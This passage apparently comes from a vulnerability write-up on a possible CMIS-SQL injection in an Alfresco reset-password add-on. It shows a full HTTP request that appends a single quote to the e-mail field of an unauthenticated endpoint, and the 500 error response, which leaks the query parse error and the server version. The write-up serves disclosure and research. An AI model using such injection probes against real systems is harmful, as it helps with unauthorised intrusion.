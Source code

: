 `Alfresco Reset Password add-on` is using [CMIS-SQL](https://hub.alfresco.com/t5/alfresco-content-services-hub/cmis-query-language/ba-p/289736) to query data from Alfresco, which is `a read-ony` query language for SELECT statement and with limited functions (like, UPPER, LOWER, etc...). 

Moving forward, I discover that the Reset Password is suffering from possible **CMIS-SQL Injection** when adding a single quote `(')` in the `e-mail` address input!

### Request to the Target Server:

```http
POST /share/proxy/alfresco-noauth/com/flex-solution/reset-password HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/share/page/
X-Requested-With: application/json
Content-Type: application/json
Content-Length: 61
Connection: close
Cookie: JSESSIONID=C8207D808B749934EA6DACC4A1BF23A1; _alfTest=_alfTest

{
    "userName":"404-NotFound@amriunix.com'"
}
```
### Response from the Target Server:

```http
HTTP/1.1 500 Internal Server Error
Date: Thu, 03 Sep 2020 22:19:05 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_auth_kerb/5.4
Strict-Transport-Security: max-age=315536000; includeSubDomains
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Content-Type: application/json;charset=UTF-8
Content-Length: 467
matched: externe-No-cockie-CAS
Connection: close

{
   "status":{
      "code":500,
      "name":"Internal Error",
      "description":"An error inside the HTTP server which prevented it from fulfilling the request."
   },
   "message":"08040025 Wrapped Exception (with status template): line 1:59 mismatched character '<EOF>' expecting '''",
   "exception":"",
   "callstack":[
      
   ],
   "server":"Community v5.2.0 (r135134-b14) schema 10,005",
   "time":"Sep 4, 2020 12:19:05 AM"
}

```